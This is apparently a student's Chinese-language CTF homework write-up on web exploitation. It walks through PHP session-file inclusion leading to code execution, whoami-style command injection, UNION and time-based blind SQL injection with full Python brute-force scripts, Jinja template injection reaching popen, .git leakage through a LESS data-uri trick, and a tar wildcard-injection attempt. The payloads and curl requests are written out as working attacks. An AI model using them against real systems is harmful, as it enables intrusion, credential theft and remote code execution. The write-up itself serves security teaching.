


# 2022 交大程式安全 HW9 writeup

## [LAB] Hello from Windows 98
網站首頁會讓你輸入 name

按送出後回傳頁面

而題目也有提供 source code

以 GET 請求的 ```source 參數值 + '.php'``` 為檔名，回傳 php 檔案的 code 並對程式碼做 highlight

HTML 中也會把 GET 請求的 page 參數值作為檔名 include 進來

若 GET 請求沒有給 page 參數，則導到輸入 name 的頁面 (即首頁)

連到 /?source=say 去看 say.php 的程式碼，確實是剛才首頁中看到的 HTML

若有給 name 參數且參數值不為空，則將此值設定為 session 中的 name 參數值，並且導到 /?page=hi.php 頁面

這邊 GET 請求的 name 參數就是我們在這個文字欄中輸入的值 (在這裡按右鍵->檢查，看對應的 HTML)\
按下 Hi 這個 submit 的按鈕時，相當於送出 /?page=hi.php 請求

連到 /?source=hi 去看 hi.php 的程式碼，確實是剛才回傳頁面對應的程式碼，會印出 session 中的 name 值

而這題有用到 LFI

以及有用到 session，而 php 的 session 預設是以檔案儲存\
只要能夠利用 LFI 把檔案 include 進來，就能讓檔案中的 php 程式碼被執行

因此嘗試去送出 php 程式碼
```php
<?php echo eval($_GET['test']); ?>
```

在回傳的頁面中打開 F12，在 Application 裡面的 Cookies 可以直接看到 session ID 為多少

session 的內容會存在 ```/tmp/sess_{session ID}``` 檔案裡\
將 session ID 複製起來，連到 ```/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76```
由於 session 檔案被 include 的緣故，而且 session 檔案裡有部分內容包含剛才輸入的 php 程式碼\
因此輸入的 php 程式碼就會成功被執行

不過錯誤訊息會說沒有 test 這個 key，因為剛才給他的 ```$_GET['test']``` 會去拿 test 的參數值\
給它 test 的值後，由於 ```echo eval($_GET['test']);``` 的關係\
會先被傳進 eval function 裡呼叫，然後印出結果\
因此這邊 test 參數只要給 ```system('ls');```
就會印出 ```system('ls');``` 的執行結果，相當於在 shell 裡執行 ```ls``` 指令
```php
/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76&test=system('ls');
```

成功執行 ls 指令，看到 flag 檔案的位置了\
最後只需要執行 ```cat flag.txt``` 指令即可，連到

```php
/?page=/tmp/sess_dd754bb0c668055772fb34d6829a3c76&test=system('cat flag.txt');
```

成功得出 flag 為 ```FLAG{LFI_t0_rC3_1s_e4Sy!}```

## [LAB] Whois Tool
網站會讓你輸入網址，然後放進 whois 指令裡查詢

查詢結果如下

在文字輸入欄裡按右鍵->檢查，查看對應的 HTML 原始碼

可得知 GET 請求的 host 參數值確實是輸入的字串值 ```{$host}```
若輸入的字串長度沒有大於 15，輸入的字串會放到 whois 指令裡去執行，並印出指令的執行結果\
(至於 ```2>&1``` 表示將 stderror (2) 導向到 stdout (1)，也就是指令的錯誤訊息也會被印出來) \
這題很明顯是在考 command injection
```{$host}``` 最前面可以放 ```";``` 閉合掉第一個雙引號以及結束 whois 指令\
最後面可以放 ```"``` 閉合掉第二個雙引號，因此嘗試輸入
```php
";ls"
 ```

查詢結果為

成功執行 ls 指令，最後改成 cat 指令印出 flag 檔案內容

查詢結果為

成功得到 flag 為 ```FLAG{c0mM4nd_1nj3cT10n_';whoami}```

參考資料：https://charleslin74.pixnet.net/blog/post/405455902
## [LAB] Normal Login Panel (Flag 1)
這題網站會讓你輸入帳號密碼並登入，並且也直接提示 username 是 admin

帳密隨便亂打，它會回傳 username 不存在，以及登入失敗 0 次，且連續試很多次都會回失敗 0 次

username 改成輸入 admin，然後密碼亂打，這次變成會回傳正確的登入失敗次數了

使用講師投影片的手法，username 輸入
```SQL
admin' or 1=1 --
```

卻會發現是登不進去的

這裡會猜測 SQL query 的形式可能沒那麼單純，有可能是多了算 count 的部分\
所以可以去猜說某些地方有可能會有 SQL injection\
於是用 ```union select``` 來嘗試看看，username 輸入
```SQL
admin' union select 1 --
```
結果會回傳

代表嘗試的 query 形式是錯的，username 改成嘗試輸入
```SQL
admin' union select 1, 2 --
```
一樣也是 Internal Server Error，username 改成輸入
```SQL
admin' union select 1, 2, 3 --
```
一樣也是 Internal Server Error，username 再改成輸入
```SQL
admin' union select 1, 2, 3, 4 --
```
這次終於有成功回傳東西，而沒有回傳 Internal Server Error

回傳的內容是登入錯誤次數為 4\
而且是在 union select 了 4 個 column 的情況下才有成功回傳\
這代表第 4 個 column 即為 count，且值為 4\
接下來 username 輸入
```SQL
admin' union select 1, 2, 3, user() --
```
結果回傳 Internal Server Error，代表 ```user()``` 應該是錯的
```user()``` 是 MySQL 內建的 function，如果會報錯代表這題的 DB 不是 MySQL，而是其他的 DB\
不過講師上課時有直接明說這題的 DB 是用 SQLite\
到 https://github.com/w181496/Web-CTF-Cheatsheet 查詢 SQLite 有什麼樣的 injection 方式\
在 SQLite 的部分，查到了可以爆破 table 的 column 的手法

於是就直接拿來用，username 輸入
```SQL
admin' union select 1, 2, 3, sql from sqlite_master where type='table' --
 ```
成功回傳了 table 的資訊

table name 為 users，包含 4 個 column：id、username、password、count

知道了 password 所在的 table name 和 column 後，username 改為輸入
```SQL
admin' union select 1, 2, 3, password from users --
```

成功得出 flag 為 ```FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}```
## [LAB] Normal Login Panel (Flag 2)

上一題得出的 flag 就是 admin 的密碼
於是帳號和密碼輸入 ```admin``` 以及 ```FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}```
就可成功登入進去，登進去後的頁面如下

從這部分可看出，如果送出的是 post request\
並且帶有 username、password 以及 greet 這三個參數的話\
當 username 和 password 為 admin 的正確帳密  ```admin``` 和 ```FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}``` 時\
它就會把 greet 參數值 render 到字串裡做回傳

用 curl 指令來送 post request
```--request``` 指定為 POST
```-d``` 放 username、password、greet 這三個參數
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet=test'
```
成功得到回傳結果

試試看如果 greet 參數值放 ```{{7*7}}``` 的 template 語法會怎麼樣

回傳 49，代表這邊有上課講的 SSTI 漏洞\
於是可以在這裡插入 template 的語法\
用 ```__class__``` 拿到 list 的 class\
用 ```__base__``` 取得 list class 繼承自的最一開始的 class，也就是 object\
(任何 class 繼承自的最一開始的 class 都是 object)\
用 ```__subclasses__()``` 取得 object 底下的所有 class\
由於輸出內容太長，先用 > 存到 subclasses.txt 檔案裡
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet=
{{[].__class__.__base__.__subclasses__()}}' > subclasses.txt
```
輸出內容如下

上網隨便搜尋一個 html decoder 把內容 decode 出來\
我是用這網站 https://emn178.github.io/online-tools/html_decode.html

將中括號裡的內容全部複製起來，貼到 subclasses_decode.txt 檔案裡\
用編輯器把逗號空格用換行替換掉

替換掉後

接下來要從這裡面去找，擁有能進行 RCE 的 function 的 class\
而講師有說到 os 相關的 function 有在 ```os._wrap_close``` 這個 class 裡

而它在第 141 個位置，所以 index 為 140
於是用 ```[140]``` 就能拿到 ```os._wrap_close``` 這個 class\
接著用 ```__init__``` 取得 class 的 constructor\
用 ```__globals__``` 取得底下的全域變數 (裡面的 function 會在這裡面)\
而我們要找的是，可以執行指令而且會回傳指令執行結果的 function，因此用 ```popen``` 會比較方便\
同樣的由於輸出內容太長，先用 > 存到 globals.txt 檔案裡
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet=
{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__}}' > globals.txt
```

將大括號的部分複製起來貼到剛才的 html decoder 裡

可看到 popen function 的確在裡面，並且因為這是個字典，所以直接用 ```["popen"]``` 來存取即可\
如此一來就可執行任意指令，達成 RCE，並 ls 出 flag 檔案了
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet={{[].__class__.
__base__.__subclasses__()[140].__init__.__globals__["popen"]("ls").read()}}'
```

最後 ```cat flag.txt```
```sh
curl https://login.ctf.zoolab.org/ --request POST -d \
'username=admin&password=FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}&greet={{[].__class__.
__base__.__subclasses__()[140].__init__.__globals__["popen"]("cat flag.txt").read()}}'
```

成功得出 flag 為 ```FLAG{S1_fu_Q1_m0_b4N_zHU_ru}```
## [HW] PasteWeb (Flag 1)
這題是一個可以讓人登入的網站

帳密隨便亂打，錯誤時會跳出 login failed 的 error

如果 username 輸入 ```admin' or 1=1 --``` 的話，會跳出 bad hacker 的 error\
也就是當字串疑似有 SQL injection 時會跳出此錯誤

如果頁面閒置過久，然後才登入的話，會跳出 when do you came from 的 error

按 F12 觀察頁面原始碼，可看出登入表單裡面確實會有 current_time 的參數

因此可猜測送出登入請求的時候\
server 端會比對頁面裡的 current_time 值跟目前的時間的差是否小於等於某個大小\
如果是的話就當作正常的請求來處理，如果不是的話就回 bad hacker error

不過這題不像前面的 lab 那樣，進行 SQL injection 時網頁會印出 query 的結果\
這題只會印出上述這三種 error message，不會印出 query 的輸出結果\
所以可以猜測這題是在考 blind SQL injection，但是試了很久後感覺 bad hacker error 似乎沒什麼用處\
不知道會觸發 bad hacker error 的確切時機是什麼，好像是字串如果有特殊的 pattern 時就會觸發\
因此可能無法利用 error message 的輸出來做 blind SQL injection，也就是說 boolean based 無法派上用場

所以這邊我用的是 time based 的手法，會注入 sleep 之類的 function\
透過有沒有成功造成網頁的延遲來判斷 query 的結果\
首先要先確定 server 是用哪種 database\
參考了 https://github.com/w181496/Web-CTF-Cheatsheet
試了各種 delay function 的語法後，username 輸入以下內容，會成功造成延遲
```sql
' or 1=(select 1 from pg_sleep(2)) --
```
因此它的 database 是用 PostgreSQL，於是就可利用以下兩種方式來進行 time-based blind injection

1. 當 where 裡的條件式為 true，會成功造成延遲 2 秒
```sql
' or 1=(select 1 from pg_sleep(2) where 1=1) --
```
2. 當 where 裡的條件式為 false，不會造成延遲
```sql
' or 1=(select 1 from pg_sleep(2) where 1=0) --
```
至於我把要判斷的條件放在 where 裡而不是 if 裡的原因是\
有些 database 的 if 語法不是用 if，但 where 的語法都會是通用的，這樣會比較方便測試

接下來，參考 https://www.cnblogs.com/swordfall/p/13083714.html
得知 PostgreSQL 可以使用以下 query 來查詢當前 database 的所有 table

database 裡的所有 table name 會存在 ```information_schema.tables``` 裡\
透過 blind injection 來得知當前 database 有多少個 table，於是 username 輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>0) --
```
沒有造成延遲，username 改成輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>1) --
```
也沒造成延遲，username 改成輸入
```sql
' or 1=(select 1 from pg_sleep(2) where (select count(*) 
from information_schema.tables where table_schema='public')>2) --
```
成功造成延遲，代表當前 database 有 2 個 table\
接下來，利用 time-based blind injection 撰寫 python 腳本爆破出 table name
```python
# PasteWeb1/table_name.py
import requests
from time import time, sleep

printable_char = ''
for i in range(33, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    table_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            table_name from information_schema.tables where table_schema='public' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" \
            + table_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                table_name += c
                stop = False
                break
        if stop == True:
            break
        print(table_name, cnt)
    if len(table_name) == 0:
        break
    offset += 1
```
```printable_char``` 是 ascii code 33 到 126 的所有可印字元，會利用 blind injection 對字元一個一個去暴力破解
```substr``` function 能取得子字串，例如 ```substr(s, 1, 2)``` 代表從字串 s 的第 1 個位置取出 2 個字元
另外，PostgreSQL 沒有 ```limit N,M``` 的語法\
必須要改用 ```limit N offset M```，從第 M 個 row 開始取出 N 筆資料 (M 會從 0 開始)\
送 post request 的時候也要記得前面講的，要送 current_time 這個參數\
server 會檢查 current_time 參數值與目前時間的差是否小於某個值\
做 time-based blind SQL injection 的方式是，在送 request 的前後記錄目前的時間\
分別為 start_time 和 end_time，用 ```time()``` 可以取得目前的 timestamp (以秒為單位)，由於 sleep 的時間為 2 秒\
當 start_time 和 end_time 相差超過 2 秒時，代表成功造成延遲，如果沒超過的話代表沒有造成延遲

成功爆破出 2 個 table name：pasteweb_accounts、s3cr3t_t4b1e\
s3cr3t_t4b1e 這個 table 看起來比較可疑，猜測 flag 會藏在裡面\
於是接下來要用一樣的方式爆破出 s3cr3t_t4b1e 的 column name\
參考 https://github.com/w181496/Web-CTF-Cheatsheet

PostgreSQL database 中所有 table 的 column name 會存在 ```information_schema.columns``` 裡\
撰寫 python 腳本爆破出 s3cr3t_t4b1e 這個 table 的 column name
```python
# PasteWeb1/column_name.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    column_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            column_name from information_schema.columns where table_name='s3cr3t_t4b1e' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" + \
            column_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                column_name += c
                stop = False
                break
        if stop == True:
            break
        print(column_name, cnt)
    if len(column_name) == 0:
        break
    offset += 1
```

成功爆破出 s3cr3t_t4b1e 的 column name 為 fl4g\
最後，也是用一樣的方法撰寫腳本爆破出 fl4g column 裡存的 flag 值
```python
# PasteWeb1/solve.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    flag = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            fl4g from s3cr3t_t4b1e limit 1 offset " + str(offset) + "),1," \
            + str(cnt) + ")='" + flag + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                flag += c
                stop = False
                break
        if stop == True:
            break
        print(flag, cnt)
    if len(flag) == 0:
        break
    offset += 1
```

成功得出 flag 為 ```FLAG{B1inD_SqL_IiIiiNj3cT10n}```
## [HW] PasteWeb (Flag 2)
接下來第二題，題目有提示說記得要利用 SQL injection 為自己 insert 一組帳密

而上一題已經有爆破出 pasteweb_accounts 這個 table name，username 和 password 會存在裡面\
使用與上一題同樣的方式，撰寫腳本爆破出 pasteweb_accounts 這個 table 的所有 column name
```python
# PasteWeb2/pasteweb_accounts_column.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    column_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            column_name from information_schema.columns where table_name='pasteweb_accounts' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" + \
            column_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                column_name += c
                stop = False
                break
        if stop == True:
            break
        print(column_name, cnt)
    if len(column_name) == 0:
        break
    offset += 1
```

成功爆破出 pasteweb_accounts 的 column 有 user_id、user_account、user_password\
接下來要看看存在 pasteweb_accounts 裡面的 data 會是什麼樣子\
撰寫腳本爆破出 pasteweb_accounts 的第 1 筆資料
```python
# PasteWeb1/pasteweb_accounts.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

cnt = 0
row = ''
while True:
    cnt += 1
    stop = True
    for c in printable_char:
        sleep(0.1)
        username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
        concat(user_id,' ',user_account,' ',user_password) from \
        pasteweb_accounts limit 1 offset 0),1," \
        + str(cnt) + ")='" + row + c + "') --"
        current_time = str(int(time()))
        url = 'https://pasteweb.ctf.zoolab.org/'
        data = {
            'username': username,
            'password': '',
            'current_time': current_time
        }
        start_time = time()
        requests.post(url, data=data)
        end_time = time()
        if end_time - start_time > 2:
            row += c
            stop = False
            break
    if stop == True:
        break
    print(row)
```

成功爆破出 admin 的密碼為 00ff3da3f03eb731c08c1a34de757574\
不過如果直接登的話還是會登不進去\
根據大部分系統實作使用者登入的模式，猜測 database 存的不會是原始的 password\
而是會存經過 hash 之後的 password，所以 pasteweb_accounts 裡面存的才會是看起來很醜的東西\
知道裡面存的是 hashed password 之後，要想辦法還原出還沒有被 hash 之前的原始 password\
上網搜尋 hashed password decrypt

查到了這網站 https://md5hashing.net/hash 可以回推出 hashed password 的原始 password\
於是用這網站把 00ff3da3f03eb731c08c1a34de757574 還原成原始的 password

hash type 選擇 search all types，然後按 decode

成功還原出原始的 password 為 P@ssw0rD，並且也得知他是使用 MD5 作為 hash 演算法\
帳密打 admin 和 P@ssw0rD，重新登入一次，這次終於成功登入

不過題目之所以會說記得要建立自己的帳密，應該是怕多人同時操作會有影響\
所以這邊還是要利用 SQL injection 來 insert 自己的帳密來做後續的操作\
於是隨便打一段字串，當作自己要 insert 的 username\
然後用剛才的網站產生 MD5 的 hash value，作為登入時的密碼

hash type 選擇 MD5，按 calculate hash

而我們透過 SQL injection 去 insert 密碼到 user_password column 時\
要 insert 的就會是 83d5135ea020de1ac354355056959b0b 這個 hash value\
由於剛才有登入過，網站狀態會保持，瀏覽器開一個新的無痕視窗\
接著 username 輸入
```sql
' or 1=1; insert into pasteweb_accounts values
(1230,'myusername1230','83d5135ea020de1ac354355056959b0b'); --
```
利用 SQL injection insert data 到 pasteweb_accounts 裡\
然後帳密打 myusername1230 和 mypassword1230 就能成功登入，代表成功 insert 帳密\
接下來是 pasteweb 的功能，edit html 和 edit css 可以提交自己的 html 和 css\
view 則是可以查看提交完 html 和 css 後的畫面長怎樣


而 share 會給你頁面的網址，這個網址可以分享出去讓所有人都能看到頁面內容\
download 則是能讓你下載你的頁面的原始碼

在 edit html 和 edit css 中提交內容
```html
<div class="a"><span>origin</span></div>
```

```css
.a span {
    display: none;
}
.a:after {
content: 'test';
}
```

這段 css 可以讓 html 的文字內容從原本的 origin 改為 test\
參考資料：https://stackoverflow.com/questions/7896402/how-can-i-replace-text-with-css
然後按 view，查看頁面變得如何

的確成功將內容改變為 test，按 F12 查看原始碼，確實也套用了 css 在 ```<style>```裡面 

而 edit css 也有支援 less 的語法，題目也有提示去看 less 的文件 https://lesscss.org/functions/

從裡面可以找到一個似乎可以利用的 function ```data-uri```
可用來嵌入檔案的資訊與檔案內容的 base64


測試看看，在 edit css 裡提交
```css
.a span {
    display: none;
}
.a:after {
content: data-uri('index.html');
}
```

結果頁面變成空白

按 F12 查看原始碼，會發現 data-uri 確實會回傳 base64 code

上網搜尋 base64 decode 的網站，把後面那串 base64 code 貼到裡面，還原成原始內容
https://emn178.github.io/online-tools/base64_decode.html


還原後的內容正是頁面的 html 原始碼\
那如果用 data-uri 去存取 editcss.php 會怎麼樣？試試看
```css
.a span {
    display: none;
}
.a:after {
content: data-uri('editcss.php');
}
```
結果卻會出現 no php 的錯誤，所以不能透過 data-uri 來拿 php 的 source code

另外，連到 /robots.txt 這個網址會發現以下頁面，它把 /.git/ 給 disallow 掉了

網址連到 /.git，會是 403 forbidden

這代表說這裡是有東西的，只是權限不足所以無法存取\
正常來說 .git 目錄下會有 config 這個檔案，網址連到 /.git/config 看看

同樣也是 403 forbidden，所以雖然有東西，但也不能直接透過網址來存取\
那如果用 data-uri 來存取不知道會怎麼樣？試試看
```css
.a span {
    display: none;
}
.a:after {
content: data-uri('/.git/config');
}
```
提交 edit css 後，頁面的原始碼變成這樣

沒有成功回傳檔案資訊與檔案內容的 base64 code，猜測這代表指定路徑的檔案是不存在的\
後來才知道這邊為什麼這路徑不存在，但用網址存取卻可以存取得到東西的原因\
因為網址存取 / 會是對應到網站的根目錄\
查一下就可以知道 Apache server 預設的網站根目錄路徑為 /var/www/html

於是重新提交 edit css
```css
.a span {
    display: none;
}
.a:after {
content: data-uri('/var/www/html/.git/config');
}
```

頁面裡的 data-uri 終於成功回傳 base64 code

將 base64 code 還原成原始內容

確實是 .git 目錄下的 config 檔案會有的內容

我們可以知道，如果拿得到 .git 目錄裡的所有東西，便可還原出所有 source code\
可透過以下工具來達成這件事\
參考資料：https://blog.csdn.net/CoderPai/article/details/80520955


但是目前只能個別猜出檔案的某些路徑，進而透過 data-uri 來獲取 .git 裡面個別的檔案內容\
而無法直接拿到 .git 裡頭的所有東西

測試了一下 scrabble 的用法
https://github.com/denny0223/scrabble


利用 flask 在 localhost 上架一個 web server\
隨便建立一些檔案，然後下 ```git init``` 指令，建立 .git 目錄，然後刪掉原本建立的那些檔案\
在 flask 裡設定 .git 目錄為 static 目錄，讓它變成可直接用網址存取底下的檔案\
接著執行 flask server\
然後執行 scrabble 腳本  ```./scrabble http://127.0.0.1:5000/```
原本那些被刪掉的檔案就會在同一個目錄下被完整還原出來

到目前為止可以知道，透過執行 scrabble 腳本\
給它含有 .git 目錄的網址，便能在同個目錄下還原出所有的 source code\
既然如此，就想到了如果在 flask server 裡自己寫一個 /.git/... 的 url route\
並在裡面把前面講的 "透過 data-uri 還原出個別檔案內容" 的手法寫進去\
原本是手動一個一個操作，這邊改為寫成 python 程式碼來做\
最後執行 flask server 和 scrabble 腳本，就能還原出所有的 source code 了

將前面 edit css 的操作改為用 curl 指令來達成\
在 edit css 的頁面中按 F12 查看原始碼，可以得知要送 post request，且提交的 css 內容會是 less 的參數值\

由於這邊必須要登入後才能進行，所以送 request 時要加上 cookie

用 curl 指令送 request，提交 edit css 的內容
```sh
curl https://pasteweb.ctf.zoolab.org/editcss.php --cookie \
'PHPSESSID=64sateuc0q1ilgun943qihuhtr' --request POST -d \
'less=.a {content: data-uri("/var/www/html/.git/config");}'
```
用 curl 指令送 request，查看 view 頁面
```sh
curl https://pasteweb.ctf.zoolab.org/view.php \
--cookie 'PHPSESSID=64sateuc0q1ilgun943qihuhtr'
```

頁面回傳的 base64 code 確實跟之前的一樣

最後，撰寫 flask server 腳本
```python
# PasteWeb2/server/server.py
from base64 import b64decode
from flask import Flask, send_file
import io
from os import system, popen

app = Flask(__name__)

@app.route('/')
def index():
	return 'Hello'

def leak_file_content(path):
    sessionID = '64sateuc0q1ilgun943qihuhtr' # need to change every time
    system('curl https://pasteweb.ctf.zoolab.org/editcss.php ' + \
    '--cookie \'PHPSESSID=' + sessionID + '\' --request POST -d ' + \
    '\'less=.a {content: data-uri("/var/www/html/.git/' + path + '");}\'')
    response = popen('curl https://pasteweb.ctf.zoolab.org/view.php ' + \
    '--cookie \'PHPSESSID=' + sessionID + '\'').read()
    index1 = response.find(';base64,')
    index2 = response.find('");\n}')
    base64_code = response[index1+8:index2]
    return b64decode(base64_code)

@app.route('/.git/<path:pathname>')
def git(pathname):
	return send_file(
        io.BytesIO(leak_file_content(pathname)),
        download_name=pathname.split('/')[-1],
        as_attachment=True
    )

if __name__ == '__main__':
	app.run(debug=True)
```
查看 view 頁面時用 popen 而不用 system 是因為要取得指令的輸出結果\
用 system 的話不會回傳指令的輸出，拿到 view 頁面的輸出後\
接著用 ```;base64,``` 和 ```");\n}``` 這兩個字串的 index 來定位出 base64 code 的位置\
然後用 base64 decode 出原本的內容

```python3 flask.py``` 執行 flask server
接著執行 ```./scrabble http://127.0.0.1:5000/```

成功還原出所有的 source code (不是綠字的就是被還原出來的 source code)

最後在 index.php 裡找出 flag 為 ```FLAG{a_l1tTl3_tRicKy_.git_L34k..or_D1d_y0u_f1nD_a_0Day_1n_lessphp?}```


參考資料：
https://hackmd.io/@shaoeChen/H1CMTVheG?type=view
https://gist.github.com/Miserlou/fcf0e9410364d98a853cb7ff42efd35a
https://www.delftstack.com/zh-tw/howto/python-flask/flask-download-file/
## [HW] PasteWeb (Flag 3)
前一題已經拿到所有 source code，而且題目有提示 argument injection\
再加上從 download.php 裡可以知道，當按下頁面的 download 按鈕時\
會執行 ```tar -cvf download.tar *``` 指令打包檔案，而這邊就會有 wildcard injection 的漏洞

參考資料：https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c
執行指令時的星字號 * 會將當前目錄下的所有檔名串在一起讓 tar 執行\
但是當檔名是指令的 option 時，就會被當作指令的 option 來執行\
因此可利用這個特性來 RCE，下圖是簡單範例


另外，從 editcss.php 裡也可得知，在提交內容時還會另外生成一個 css 檔案

而且如果 post request 裡有 theme 參數的話，那麼產生的 css 檔案的檔名就會是 theme 的參數值\
產生的檔案會被放在 ```./sandbox/[username 的 md5 hash value]/``` 裡面\
於是用 curl 指令送 post request 測試看看，加上 theme 參數值 test
```sh
curl https://pasteweb.ctf.zoolab.org/editcss.php --cookie \
'PHPSESSID=64sateuc0q1ilgun943qihuhtr' --request POST -d \
"less=&theme=test"
 ```
而我的 username 是 myusername1230\
myusername1230 的 md5 hash value 是 beb199d2beb8ab3ebf059307b13d31c8


連到 /sandbox/beb199d2beb8ab3ebf059307b13d31c8/test.css 看看

確實產生出 test.css 了\
接下來結合 tar 的 wildcard injection 漏洞來測試，用 curl 指令送 request
```sh
curl https://pasteweb.ctf.zoolab.org/editcss.php --cookie \
'PHPSESSID=64sateuc0q1ilgun943qihuhtr' --request POST -d \
"less=&theme=--checkpoint-action=exec=echo 'aaaa' > output"
 ```

成功生成檔名為 '--checkpoint-action=exec=echo 'aaaa' > output' 的 css 檔案\
接著嘗試進行 wildcard injection\
回到 pasteweb 頁面按 download 按鈕，tar 指令就會執行，看看 output 檔案有沒有產生出來

原本想說是檔名後面漏了 .css，但加了後也沒有

於是就卡住了，不知道這邊錯在哪裡\
後來也有想到有可能是因為 less 是空的緣故，但加了內容後也還是不行\
因此這題只有解到這邊